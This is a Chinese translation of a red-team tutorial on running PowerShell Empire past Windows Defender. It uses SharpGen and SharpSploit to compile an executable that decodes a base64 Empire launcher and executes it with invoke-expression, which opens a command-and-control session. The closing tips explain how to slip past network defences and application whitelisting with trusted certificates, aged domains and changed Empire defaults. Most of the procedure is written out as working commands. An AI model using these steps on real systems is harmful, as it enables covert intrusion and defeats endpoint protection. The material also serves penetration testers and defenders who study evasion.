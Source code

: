 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [xz.aliyun.com](https://xz.aliyun.com/t/4159)

本文翻译自 [Getting PowerShell Empire Past Windows Defender](https://www.blackhillsinfosec.com/getting-powershell-empire-past-windows-defender/)

### 0x01 前言

Windows 自带的杀毒软件 Defender 在阻止很多攻击手法方面都做得很好，包括使用 PowerShell Empire 等工具建立 C2 通信。我最近在研究一种在启用了 Defender 的 Win10 电脑上建立 C2 会话的方法。我发现有一个叫 [SharpSploit](https://github.com/cobbr/SharpSploit) 的项目成功绕过了 Defender。SharpSploit 将其他安全研究人员的研究成功融合到了一个工具中，并其是利用`c#`代码而不是`PowerShell.exe`来实现。这种技术有助于绕过 AV 对恶意 PowerShell 活动的常见检测。

目前我最感兴趣的是利用`sharsploit`命令调用`PowerShellExecute`中的方法。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20190220172740-c511665c-34f1-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190220172740-c511665c-34f1-1.png)

值得一提的是它还融合了 [Matt Graeber](https://twitter.com/mattifestation) 的 AMSI 绕过技术和 [Lee Christensen](https://twitter.com/tifkin_) 的 PowerShell 日志绕过技术。综合利用起来很方便! 同时也得提一下 绕过 Defender 的核心工作是绕过 AMSI。

### 0x02 过程

废话不多说，开始学习如何利用`PowerShell Empire`绕过 Defender 等杀毒的手法。

下面将使用 [shargen](https://cobbr.io/SharpGen.html) 将我们想要的`sharsploit`功能打包到可执行文件中。打包所需要用到的[.Net Core SDK](https://dotnet.microsoft.com/download) 文件可以点击蓝字下载到。

`Defender`并不会对`SharpGen`的代码文件报毒 但是为了避免不必要的麻烦 你可以选择添加一个白名单文件夹来进行相关处理 通过 [Git For Windows](https://gitforwindows.org/) 执行下面的代码获取`SharpGen`的代码：

```
git clone https://github.com/cobbr/SharpGen.git
```

`SharpGen`和`PowerKatz`是捆绑在一起的，`PowerKatz`会被编译成最终的可执行文件，此时`Defender`仍然会阻止这些可执行文件。因为我们的目标不是运行`Mimikatz`(通过 PowerKatz)，所以我们修改代码来禁用它。在`SharpGen`文件夹中的`Resources.yml`文件如下:

[![](https://xzfile.aliyuncs.com/media/upload/picture/20190220172802-d212ab9a-34f1-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190220172802-d212ab9a-34f1-1.png)

确保资源文件中的每个`Enabled`字段都修改为`false`后。准备打包`SharpGen DLL`。

```
cd SharpGen
dotnet build -c Release
```

程序将生成一个`bin/Release/netcoreapp2.1`目录，里面就包含下一步所需的`SharpGen.dll`文件。作为测试，我们先构建一个使用`Write-Output`将`hi`打印到屏幕上的可执行文件。

```
dotnet bin/Release/netcoreapp2.1/SharpGen.dll -f example.exe -d net40 "Console.WriteLine(Shell.PowerShellExecute(\"Write-Output hi\"));"
```

执行完后将在`Output`文件夹中找到编译好的可执行文件。上述命令中的`-d net40`参数的意思是选择`.Net 4.0`的编译环境，如果您的目标系统上是`.Net 3.5`那么就需要修改为对应的`-d net35`，这是个容易掉进去的坑 望周知。

完了运行`example.exe`即可将`hi`打印到屏幕上。如果直接点击运行会一闪而过 看不到运行结果。所以建议通过`cmd.exe`来运行，以便查看输出。

[![](https://xzfile.aliyuncs.com/media/upload/picture/20190220172817-daca7d3a-34f1-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20190220172817-daca7d3a-34f1-1.png)

为了实现最终目标，下面将构建一个可执行文件来运行`PowerShell`的一行代码，以便与`Empire`建立 C2 连接。利用用`PowerShell Empire`中的`multi/launcher stager`生成一行代码 ([参考](https://www.blackhillsinfosec.com/using-powershell-empire-with-a-trusted-certificate/))。我们只需要将生成的`base64`字符串复制到下面命令中即可。

```
dotnet bin/Release/netcoreapp2.1/SharpGen.dll -f Launcher.exe -d net40 "Console.WriteLine(Shell.PowerShellExecute(\"$c = [System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('<BASE64_LAUNCHER>')); invoke-expression -command $c\"));"
```

(替换命令中的`<BASE64_LAUNCHER>`即可)

随后将`Output`中的`Launcher.exe`上传到目标中在运行即可绕过 Defender 的保护。

### 0x03 总结

然而再实战中`Defender`可能并不是企业环境中会遇到的唯一防御。例如，可能会有网络防御来检查网络流量并阻断通信。这里提供一些绕过的小技巧。

1.  使用`https`协议进行通讯 并且要使用有效的的 SSL 证书（非自己生成的）。
    
2.  修改所有配置的默认值，如启动`Empire Listener`时`DefaultJitter`和`DefaultProfile`的值。
    
3.  使用一个老域名 (不是最近购买的) 和分类的域名。（原文表达的意思为类白名单机制 AV 会重点检查新域名 如果是政府域名这类的域名直接放行）
    
4.  如果白名单起到作用，但是 AV 阻止生成的随机可执行文件，可运用一些白名单绕过技术后再尝试。如我之前绕过的[例子](https://www.blackhillsinfosec.com/powershell-without-powershell-how-to-bypass-application-whitelisting-environment-restrictions-av/).
